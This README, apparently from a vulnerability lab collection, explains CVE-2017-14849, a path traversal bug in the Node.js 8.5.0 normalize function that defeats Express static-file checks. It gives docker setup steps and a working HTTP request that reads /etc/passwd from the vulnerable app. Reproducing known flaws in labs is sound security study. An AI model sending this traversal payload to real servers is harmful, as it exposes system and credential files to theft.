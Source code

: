 # Node.js 8.5.0 Path Traversal (CVE-2017-14849)

[中文版本(Chinese version)](README.zh-cn.md)

Node.js is a cross-platform, open-source JavaScript runtime environment. Node.js 8.5.0 before 8.6.0 allows remote attackers to access unintended files, because a change to ".." handling was incompatible with the pathname validation used by unspecified community modules.

The vulnerability exists due to a logic error in Node.js 8.5.0's `normalize` function when handling directory paths. When traversing up directories (e.g., `../../../../../../etc/passwd`), adding `foo/../` in the middle of the path (e.g., `../../../foo/../../../../etc/passwd`) causes `normalize` to incorrectly return `/etc/passwd`, when the correct result should be `../../../../../../etc/passwd`.

Web frameworks like Express typically provide static file server functionality that relies on the `normalize` function. For example, Express uses the `normalize` function to check if a path exceeds the static directory boundaries. The above bug causes the `normalize` function to return incorrect results, bypassing these checks and leading to arbitrary file read vulnerabilities.

While the `normalize` bug could potentially affect more than just Express and requires further investigation, its impact is limited since the bug was introduced in Node.js 8.5.0 and was fixed in version 8.6.

Reference links:

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

## Environment Setup

Run following commands to build and run a vulnerable application based on the Node.JS 8.5.0 and Express 4.15.5:

```
docker compose build
docker compose up -d
```

Visit `http://your-ip:3000/` to see a web page that references the file `/static/main.js`, indicating the presence of a static file server.

## Vulnerability Reproduce

Send the following request to read the passwd file:

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](1.png)
